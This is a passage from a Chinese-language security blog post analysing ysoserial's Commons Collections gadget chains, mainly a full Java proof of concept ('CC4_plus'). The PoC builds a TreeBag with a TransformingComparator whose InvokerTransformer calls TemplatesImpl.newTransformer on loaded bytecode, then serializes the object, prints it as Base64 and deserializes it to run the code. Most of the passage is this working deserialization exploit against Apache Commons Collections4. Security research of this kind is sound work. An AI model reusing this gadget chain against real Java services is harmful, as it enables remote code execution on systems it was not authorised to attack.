
这里调用了compare方法进行排序，跟进

这里同样使用了comparator.compare进行比较，同样我们就可以使用TransformingComparator来触发transformer了
POC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
public class CC4_plus {
public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj,value);
}
public static void main(String[] args) throws Exception {
//创建TemplatesImpl对象加载字节码
byte[] code = ClassPool.getDefault().get("ysoserial.vulndemo.Calc").toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj,"_name","RoboTerh");
setFieldValue(obj,"_class",null);
setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
setFieldValue(obj,"_bytecodes",new byte[][]{code});
//使用一个无害的InvokerTransformer
InvokerTransformer transformer = new InvokerTransformer("toString", null, null);
TransformingComparator transformingComparator = new TransformingComparator(transformer);
//创建TreeBag对象
TreeBag treeBag = new TreeBag(transformingComparator);
treeBag.add(obj);
//更改调用方法
setFieldValue(transformer, "iMethodName", "newTransformer");
//序列化
ByteArrayOutputStream baor = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baor);
oos.writeObject(treeBag);
oos.close();
System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
//反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baor.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object o = ois.readObject();
baor.close();
}
}使用TemplatesImpl.newTransformer方法触发transformer



- Post link: https://roboterh.github.io/2022/04/17/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BCC2-CC4/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.